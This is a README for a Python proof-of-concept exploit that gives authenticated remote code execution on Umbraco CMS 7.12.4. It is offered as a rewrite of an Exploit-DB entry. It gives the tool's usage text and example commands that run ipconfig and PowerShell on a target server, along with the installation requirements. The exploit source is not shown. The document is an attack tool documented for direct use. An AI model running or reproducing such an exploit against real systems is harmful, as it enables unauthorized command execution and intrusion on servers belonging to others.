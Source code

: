 # Umbraco RCE exploit / PoC

> Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution

## Usage

```
$ python exploit.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

optional arguments:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

Examples:

```
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c ipconfig
$ python exploit.py -u admin@example.org -p password123 -i 'http://10.0.0.1' -c powershell.exe -a '-NoProfile -Command ls'
```

## Requirements

- [Beautiful Soup](https://www.crummy.com/software/BeautifulSoup/index.html)
- [Requests](https://requests.readthedocs.io/en/master/)

Example for ArchLinux:

```
pacman -S python-beautifulsoup4 python-requests
```

## Reference

This is a better re-write of [EDB-ID-46153](https://www.exploit-db.com/exploits/46153) using arguments and with stdout display.

Tested with python 3.8.
